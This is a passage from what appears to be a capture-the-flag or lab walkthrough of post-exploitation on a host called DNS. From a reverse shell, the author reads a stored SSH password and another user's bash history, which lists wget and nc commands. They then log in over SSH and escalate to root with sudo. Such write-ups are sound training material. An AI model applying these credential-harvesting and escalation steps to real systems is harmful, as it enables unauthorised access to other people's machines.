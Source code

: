 The code execution is actually triggered as soon as we hit "update file".

Some light enumeration on the new host shows more ssh credentials:

```
root@DNS:/home/dave# cat ssh
cat ssh
dave
dav3gerous567
root@DNS:/home/dave# 

```

The bash history for user alex shows some interesting items:

```
root@DNS:/home/dave# cat /home/alex/.bash_history
cat /home/alex/.bash_history
wget http://192.168.1.11:8888/DNS.zip
sudo apt-get nmap
apt-get install nmap
ping 192.168.5.2
nc -lvp 8888

```

We will back out of the reverse shell and just ssh into DNS as normal:

```
root@DNS:/home/dave# ^X^C
dave@ubuntu:~/Desktop$ ssh dave@192.168.1.4
^C
dave@ubuntu:~/Desktop$ ssh dave@192.168.122.4
dave@192.168.122.4's password: 
Permission denied, please try again.
dave@192.168.122.4's password: 
Welcome to Ubuntu 16.04.4 LTS (GNU/Linux 4.4.0-116-generic i686)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

98 packages can be updated.
50 updates are security updates.


Last login: Mon Sep  3 16:38:03 2018
```

He also has sudo perms:

```
dave@DNS:~$ sudo su root
[sudo] password for dave: 
root@DNS:/home/dave#
```

